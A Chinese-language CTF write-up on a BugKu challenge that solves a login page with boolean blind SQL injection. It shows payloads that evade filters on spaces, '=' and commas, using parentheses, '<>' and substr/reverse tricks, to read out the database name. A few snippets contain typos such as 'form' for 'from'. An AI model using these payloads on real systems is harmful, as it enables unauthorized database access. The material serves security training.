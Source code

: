 ### <> 绕过 = 过滤

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/682ae2ae58cb8da5c8fbde5e.jpg)

尝试弱口令回显密码错误

![](https://pic1.imgdb.cn/item/682ae7e958cb8da5c8fbe1f0.jpg)

用户名是 admin，万能密码回显非法字符

![](https://pic1.imgdb.cn/item/682ae80458cb8da5c8fbe1f6.jpg)

fuzz 测试一波看看过滤了哪些

![](https://pic1.imgdb.cn/item/682ae81858cb8da5c8fbe1fc.jpg)

过滤了空格，可以使用 () 绕过

同时过滤了 =，但是我们可以用 <> 替换 !=

他俩都表示不等于，于是可以构造语句，先永假条件测试返回用户名不存在

```sql
hjakshdksjah'or(1<>1)#
```

![](https://pic1.imgdb.cn/item/682ae86658cb8da5c8fbe245.jpg)

再永真条件测试返回密码不存在

```sql
hjakshdksjah'or(1<>2)#
```

![](https://pic1.imgdb.cn/item/682ae94e58cb8da5c8fbe5a9.jpg)

首先是咱输入的用户名肯定是不存在的（键盘瞎按的）

如果 or 语句为假则用户名不存在，反之为真，由此可以先测试数据库长度

最后得到数据库长度为 8

```sql
hjakshdksjah'or(length(database()>0))#
```

![](https://pic1.imgdb.cn/item/682aea6e58cb8da5c8fbe897.jpg)

接下来需要爆破数据库名，但是它过滤了逗号

想到了字符串截取函数 `substr()` 不要逗号空格的用法

```sql
# from 后面的数字表示它从第几位开始取字符
substr('flag' from 1)		# 返回：flag
substr('flag' from 2)		# 返回：lag
```

可以构造下面 payload 拿到数据库名

```sql
substr((database())from(1))
```

但是 for 有截取长度限制，所以我们再套一个 `substr() + reverse()` 每次只截取一位

```sql
substr((reverse(substr('flag' form 1))) from 4 )		# 返回：f
substr((reverse(substr('flag' form 2))) from 3 )		# 返回：l
substr((reverse(substr('flag' form 3))) from 2 )		# 返回：a
substr((reverse(substr('flag' form 4))) from 1 )		# 返回：g
```

最后再利用之前 <> 配合 `ord()` 转 ASCII 码比较

```sql
asdadadadadas'or(ord(substr(reverse(substr((database())from(1)))from(8)))<>115)#
```

![](https://pic1.imgdb.cn/item/682af24b58cb8da5c8fc19be.jpg)

